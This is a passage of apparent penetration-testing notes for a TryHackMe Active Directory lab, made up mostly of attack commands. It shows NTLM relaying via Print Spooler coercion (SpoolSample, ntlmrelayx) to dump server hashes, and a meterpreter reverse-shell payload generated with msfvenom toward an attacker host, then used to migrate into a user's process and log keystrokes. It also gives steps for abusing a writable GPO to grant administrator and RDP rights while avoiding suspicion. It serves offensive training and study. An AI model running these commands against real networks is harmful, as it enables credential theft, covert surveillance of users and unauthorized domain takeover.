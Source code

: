 ```powershell
# Note: This attack can be unstable. Abusing the Print Spooler service may cause it to crash, and a callback is not always guaranteed.
https://github.com/leechristensen/SpoolSample
ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug
# Now we coerce SERVER2 to authenticate to SERVER1
C:\Tools\>SpoolSample.exe THMSERVER2.za.tryhackme.loc "Attacker IP"
# With this we dump SERVER1 hashes
```
{% endcode %}

## AD Users

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Keylogger -> use meterpreter revshell, migrate to a process owned by the targeted user (e.g. explorer.exe) as otherwise keylogger being SYSTEM or other user will not work
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1
meterpreter\>ps | grep "explorer"
meterpreter\>migrate $PID
meterpreter > getuid # confirm we are targeted user
meterpreter\>keyscan_start
# Wait some minutes (or hours/days, depending on the scenario) and then dump captured keystrokes
meterpreter\>keyscan_dump
```
{% endcode %}

## GPOs

Group Policy Object allows users to configure Windows policies. Group Policy Management is an AD feature that allows to configure GPOs for the entire AD structure.

{% code overflow="wrap" fullWidth="true" %}
```powershell
# If we have a user with Generic Write on GPO -> access grants you the ability to write to any non-protected attribute on the target object, including "members" for a group, and "serviceprincipalnames" for a user
# To not look suspicious and RDP directly with a user account that might log the actual user out, we can use run as
C:\>runas /netonly /user:za.tryhackme.loc\<AD Username> cmd.exe
C:\>mmc
# To verify the correct creds where provided, run this on the newly spawned console
dir \\za.tryhackme.loc\sysvol
# Then open the Microsoft Management Console 
C:\>mmc
# Now add the Group Policy Management snap-in
    Click File -> Add/Remove Snap-in
    Select the Group Policy Management snap-in and click Add
    Click Ok
# Navigate to the domain and specific GPO that our user can modify and then click on Edit
Expand Computer Configuration
Expand Policies
Expand Windows Settings
Expand Security Settings
Right Click on Restricted Groups and select Add Group
Add a group we already belong and make that group a member of (second textbox) the groups Administrators and Remote Desktop Users
By doing so our current user/group will have full privileges over that machine/host
```
{% endcode %}
